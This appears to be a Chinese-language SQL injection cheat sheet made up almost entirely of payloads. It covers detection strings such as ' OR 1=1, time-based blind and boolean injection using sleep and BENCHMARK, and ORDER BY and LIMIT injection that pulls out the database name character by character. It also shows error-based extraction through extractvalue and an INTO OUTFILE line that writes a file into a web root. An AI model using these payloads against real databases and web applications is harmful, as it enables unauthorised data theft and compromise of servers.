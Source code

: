 **字符串连接函数**
```sql
concat(version(),'|',user());
concat_ws('|',1,2,3)
group_concat(version(),'~')
```

**字符转换**
```
Char(49)
Hex('a')
Unhex(61)
```

### 探测payload
```
' OR 1=1;-- -
' OR 1=1;#
```

### 回显语句
```sql
if(x,x,x)
case when 条件1 then 结果1 else 结果2 end
case 条件0 when 条件1 then 结果1 else 结果2 end
and 判断语句 and sleep(5) # 如果判断语句错误就不会执行sleep(5)
or 判断语句 or sleep(5) # 如果语句正确就不执行sleep(5)

完整如下：
select(if((ascii('a')='97'),1,2));
select(case(ascii('a'))when(97)then(1)else(2)end);
select 1 and ascii('a')>96 and sleep(1);
select 0 or !ascii('a')>96 or sleep(1);  # 加一个!就会加快脚本的爆破速度。
```


## 2号注入点
2号注入点是`order by`后面的注入.
其注入方式有点类似于盲注和布尔注入.

### 注入语句有
```sql
if()
case when then else end
ifnull
rand
(select 1 regexp if())
updaetxml()
extractvalue()

完整如下：
select * from users order by 1 and If(ascii(substr(database(),1,1))=116,0,sleep(1));
(SELECT IF(SUBSTRING(current,1,1)=CHAR(115), BENCHMARK(50000000,md5('1')),null) FROM (select database() as current) as tb1)
rand(ascii(left(database(),1))=116)
此处可以利用limit后面的注入procedure
1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1)
1 into outfile "c:\\wamp\\www\\sqllib\\test1.txt"
```

